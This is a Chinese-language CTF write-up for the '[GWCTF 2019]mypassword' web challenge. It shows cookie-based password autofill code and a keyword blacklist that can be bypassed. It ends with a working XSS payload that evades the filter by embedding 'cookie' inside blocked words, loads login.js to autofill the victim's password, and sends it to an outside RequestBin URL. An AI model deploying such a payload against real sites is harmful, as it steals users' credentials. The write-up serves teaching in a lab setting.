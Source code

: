 # [GWCTF 2019]mypassword

`login.js`

```javascript
if (document.cookie && document.cookie != '') {
	var cookies = document.cookie.split('; ');
	var cookie = {};
	for (var i = 0; i < cookies.length; i++) {
		var arr = cookies[i].split('=');
		var key = arr[0];
		cookie[key] = arr[1];
	}
	if(typeof(cookie['user']) != "undefined" && typeof(cookie['psw']) != "undefined"){
		document.getElementsByName("username")[0].value = cookie['user'];
		document.getElementsByName("password")[0].value = cookie['psw'];
	}
}
```

可以看出，用户名和密码都填入了表单
 登录成功后有一个`feedback.php`的用户反馈

![image-20210807171638167]([GWCTF 2019]mypassword/image-20210807171638167.png)

![image-20210807171706647]([GWCTF 2019]mypassword/image-20210807171706647.png)

注释代码

```


    <!--
                if(is_array($feedback)){
                    echo "<script>alert('反馈不合法');</script>";
                    return false;
                }
                $blacklist = ['_','\'','&','\\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
                foreach ($blacklist as $val) {
                    while(true){
                        if(stripos($feedback,$val) !== false){
                            $feedback = str_ireplace($val,"",$feedback);
                        }else{
                            break;
                        }
                    }
                }
                -->
```

可以看出对输入的内容有过滤，但是只是替换为空很容易绕过，例如是incookieput的话，替换后会剩下input。由于login.js中有记录密码的功能，所以我们可以构造一个表单在feedback页面提交，在 http://http.requestbin.buuoj.cn  （RequestBin提供了一个URL，该URL将收集对其发出的请求，首页点击create a requestbin）页面接收flag

```javascript
    <incookieput type="text" name="username">
    <incookieput type="password" name="password">
    <scrcookieipt scookierc="./js/login.js"></scrcookieipt>
    <scrcookieipt>
        var psw = docucookiement.getcookieElementsByName("password")[0].value;
        docucookiement.locacookietion="http://http.requestbin.buuoj.cn/11uk8c71/?a="+psw;
    </scrcookieipt>
```

![img]([GWCTF 2019]mypassword/L3Byb3h5L2h0dHBzL2ltZzIwMTguY25ibG9ncy5jb20vY29tbW9uLzE2MjM3OTYvMjAyMDAyLzE2MjM3OTYtMjAyMDAyMjExOTMxNDM0MTItOTE2NzIxMzQ4LnBuZw==.jpg)